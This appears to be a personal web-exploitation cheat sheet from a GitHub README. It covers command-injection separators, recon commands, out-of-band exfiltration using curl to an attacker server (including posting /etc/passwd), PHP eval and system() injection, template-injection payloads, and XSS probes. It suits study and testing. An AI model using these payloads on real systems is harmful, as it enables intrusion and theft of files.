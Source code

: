 # Cybersecurity Cheatsheet

## Table Of Contents

- [Cybersecurity Cheatsheet](#cybersecurity-cheatsheet)
  - [Table Of Contents](#table-of-contents)
  - [Web Exploitation](#web-exploitation)
    - [Start Hack](#start-hack)
    - [Techniques](#techniques)
    - [Command Injection](#command-injection)
      - [Useful commands](#useful-commands)
      - [Out of band in OS command injection](#out-of-band-in-os-command-injection)
        - [`curl`](#curl)
        - [`ping` and `dig`](#ping-and-dig)
    - [Code Injection](#code-injection)
    - [Server Side Template Injection](#server-side-template-injection)
    - [XSS](#xss)
    - [Handwrite Notes](#handwrite-notes)

## Web Exploitation

### Start Hack

1. Work with the website, the workflow, buttons, forms, etc.
2. [OS command injection](#command-injection)
3. Code injection
4. Server side template injection
5. XSS

### Techniques

| Key            | Description                                                      |
| -------------- | ---------------------------------------------------------------- |
| Verb Tampering | Send different methods requests to a path to see vulnerabilities |
| HTTP request   | Use hex or encode URL                                            |
| CORS           | If enabled, the best vulnerability                               |

### Command Injection

| Key                        | Description                                                 |
| -------------------------- | ----------------------------------------------------------- |
| `$ ls;pwd`                 | Run multiple commands with semicolon                        |
| `$ ls && pwd`              | If the first result command is ok, run the second           |
| `$ ls \|\| pwd`            | OR                                                          |
| `$ ls \| pwd`              | Pipe                                                        |
| `$ ls & pwd`               | & shows the PID process. But we use for multiple commands   |
| `$ ping 127.0.0.1;ls -c 1` | Inject `ls; -c 1` or `ls # -c 1` or `ls %23 -c 1` to bypass |

**No result:** what to do if we can not get the command result in response? Use the `sleep 20` command 
to find whether it has vulnerabilty or not

#### Useful commands
When you have identified an OS command injection vulnerability, it is generally useful to execute some initial commands to obtain information about the system that you have compromised. Below is a summary of some commands that are useful on Linux and Windows platforms:

| Purpose of command    | Linux       | Windows       |
| --------------------- | ----------- | ------------- |
| Name of current user  | whoami      | whoami        |
| Operating system      | uname -a    | ver           |
| Network configuration | ifconfig    | ipconfig /all |
| Network connections   | netstat -an | netstat -an   |
| Running processes     | ps -ef      | tasklist      |

#### Out of band in OS command injection

##### `curl`

1. Run a server in hacker's computer (better to bind it to `80` or `443` or `53` port)
2. Inject these commands: 
    - `$ curl <addr>/?key=value`
    - to run a command (e.g. `ls -l`) use this command `$ curl <addr> -d "$(ls -l)"`
    - to send file, use this command `$ curl <addr> -d @/etc/passwd`
3. See the logs in the server

##### `ping` and `dig`

Sometimes the HTTP protocol is not allowed, so we can use `ping` or `dig` to send data to the server. The attacker can create a DNS server to receive the data.

### Code Injection

The `eval("print (2 + 2);")` function in PHP runs a code

- e.g. `eval("ping $ip")` **bypass** by adding `"` or `'` or  
**exploit:** `";phpinfo();`

- **Comment:** Maybe we should comment the front codes. Use `//` or `#` for PHP.
- **Input limitation:** execute a shell with `system()` or `shell_exec()` or `exec()` or `aval()` in PHP.
    - e.g. `system($_GET[v])`


### Server Side Template Injection

- Tool for this volnerability: [tplmap][1]
- Input these: `{2*2}` or `{`
- **exploit:** for PHP and Smarty engine, `{php}phpinfo(){/php}`

### XSS

Check these payloads:

- `<h1></h1>`
- `test">`
- `<script></script>`

### Handwrite Notes

| #     | Key           | Description                                                                 |
| ----- | ------------- | --------------------------------------------------------------------------- |
| **1** | `http.server` | Create a simple fantastic HTTP server with Python. `python3 -m http.server` |
| **2** | `dig`         | `$ dig A <addr>` find the host IP. Maybe this is a virtual host             |
| **3** | VH            | `$ curl <IP> -H "Host: <addr>"`                                             |


[1]: https://github.com/epinna/tplmap